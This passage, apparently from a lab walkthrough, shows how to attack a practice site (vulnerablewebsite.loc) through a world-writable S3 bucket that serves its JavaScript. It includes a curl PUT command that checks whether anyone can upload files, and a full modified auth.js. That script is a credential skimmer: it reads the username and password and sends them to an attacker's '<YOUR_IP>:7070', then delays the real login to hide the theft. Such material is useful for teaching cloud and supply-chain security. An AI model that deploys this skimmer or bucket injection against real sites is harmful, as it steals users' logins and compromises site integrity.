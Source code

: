 3. **Inspecting the Code**: Refresh the page and right-click to view the source code. You will see that the page loads a JavaScript dependency from `cdn.vulnerablewebsite.loc`. 

4. **Download the Dependency**: If you visit the dependency URL (e.g., `http://cdn.vulnerablewebsite.loc`), you can download a JavaScript file, such as `auth.js`, which is part of the authentication process.

   ```javascript
   var input = document.getElementById('txtPassword');
   input.addEventListener("keypress", function(event) {
       if (event.key == "Enter") {
           event.preventDefault();
           document.getElementById("loginSubmit").click();
       }
   });
   ```

   This is a benign script that auto-submits the login form when the "Enter" key is pressed. However, we can modify it to capture sensitive user credentials.

5. **Exploiting the Insecure Bucket**: If you check the `S3` bucket configuration, you might find that it is world-writable (i.e., allows unauthorized users to upload files). To confirm this, you can try sending a `PUT` request:
   ```bash
   curl -X PUT http://cdn.vulnerablewebsite.loc/libraries/test.js -d "Testing world-writeable permissions"
   ```
   If the request succeeds, this confirms that the bucket allows unauthorized file uploads. Now, you can upload your malicious JavaScript file.

6. **Inject the Malicious Script**: Modify the original `auth.js` to capture user credentials and send them to your server:
   ```javascript
   var input = document.getElementById('txtPassword');
   input.addEventListener("keypress", function(event) {
       if (event.key == "Enter") {
           event.preventDefault();
           try {
               const oReq = new XMLHttpRequest();
               var user = document.getElementById('txtUsername').value;
               var pass = document.getElementById('txtPassword').value;
               oReq.open("GET", "http://<YOUR_IP>:7070/item?user=" + user + "&pass=" + pass);
               oReq.send();
           } catch (err) {
               console.log(err);
           }
           function sleep(time) {
               return new Promise(resolve => setTimeout(resolve, time));
           }
           sleep(5000).then(() => {
               document.getElementById("loginSubmit").click();
           });
       }
   });
   ```
   This modified script collects the username and password from the login form and sends them to your server.

